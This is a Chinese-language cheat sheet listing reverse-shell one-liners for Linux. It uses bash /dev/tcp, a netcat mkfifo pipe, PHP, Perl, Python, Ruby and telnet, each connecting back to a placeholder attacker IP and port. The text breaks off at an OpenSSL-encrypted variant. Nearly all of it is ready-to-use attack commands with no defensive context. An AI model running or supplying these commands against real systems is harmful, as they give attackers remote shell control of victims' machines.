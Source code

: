 Linux 上也存在一些自带命令/工具，来进行反弹 shell 得到一个 (非) 交互式 shell。  
下述命令中的 yourip 为攻击者监听的 ip；yourport 为攻击者监听的端口。

## bash

```plain
bash -c 'exec bash -i &>/dev/tcp/yourip/yourport <&1'
```

## netcat

```plain
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc yourip yourport >/tmp/f
```

## php

```plain
php -r '$sock=fsockopen(getenv("yourip"),getenv("yourport"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

## perl

```plain
perl -e 'use Socket;$i="$ENV{yourip}";$p=$ENV{yourport};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python

1.  `python -c 'import sys,socket,os,pty;s=socket.socket()`
2.    `s.connect((os.getenv("yourip"),int(os.getenv("yourport"))))`
3.    `[os.dup2(s.fileno(),fd) for fd in (0,1,2)]`
4.    `pty.spawn("/bin/sh")'`

## ruby

```plain
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["yourip"],ENV["yourport"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## telnet

```ruby
TF=$(mktemp -u); mkfifo $TF && telnet 127.0.0.1 1337 0<$TF | /bin/sh 1>$TF
```

## openssl 加密

服务端生成证书：
